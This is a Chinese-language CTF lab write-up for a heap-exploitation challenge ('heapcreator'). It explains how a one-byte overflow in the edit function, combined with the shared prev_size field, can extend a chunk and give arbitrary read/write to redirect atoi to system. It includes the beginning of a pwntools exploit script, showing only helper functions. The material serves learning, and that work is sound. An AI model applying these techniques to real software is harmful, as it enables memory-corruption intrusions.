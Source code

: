

## lab13

考察Extend the chunk。

这题用到了一个trick。

源代码中edit_heap函数中有这么一段：

```cpp
	if(heaparray[idx]){
		printf("Content of heap : ");
		read_input(heaparray[idx]->content,heaparray[idx]->size+1);//size +1 overflow
		puts("Done !");
	}else{
		puts("No such heap !");
	}
```

有溢出，但只溢出了1字节，要Extend the chunk就要改chunk的size，但一般来说1字节到不了size，前面还有prev_size。

考虑64位，如果malloc的size没有16字节对齐，比如malloc（0x18），系统实际malloc了0x20字节给程序，**不够的8字节由后面一个chunk的prev_size提供（共用）**。这也很合理，当这个chunk在使用时，prev_size肯定为0，是没用的；当prev_size有用时，这个chunk已经被free了，里面的内容已经无用了。

使用这个trick加一字节的溢出，我们刚好可以修改size。

通过Extend the chunk是一块chunk被包入另一个chunk内，free这两个chunk，在重新malloc，就会实现同一块内存的重复使用，进而变成构造任意指针，从而任意地址读写。

exp(改atoi到system):

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']
cn = process('./heapcreator')
bin = ELF('./heapcreator')
libc = ELF('./libc.so')

def create(size,content):
    cn.recvuntil(":")
    cn.sendline("1")
    cn.recvuntil(":")
    cn.sendline(str(size))
    cn.recvuntil(":")
    cn.sendline(content)

def edit(idx,content):
    cn.recvuntil(":")
    cn.sendline("2")
    cn.recvuntil(":")
    cn.sendline(str(idx))
    cn.recvuntil(":")
    cn.sendline(content)

def show(idx):
    cn.recvuntil(":")
    cn.sendline("3")
    cn.recvuntil(":")
    cn.sendline(str(idx))

def delete(idx):
    cn.recvuntil(":")
    cn.sendline("4")
    cn.recvuntil(":")
    cn.sendline(str(idx))
```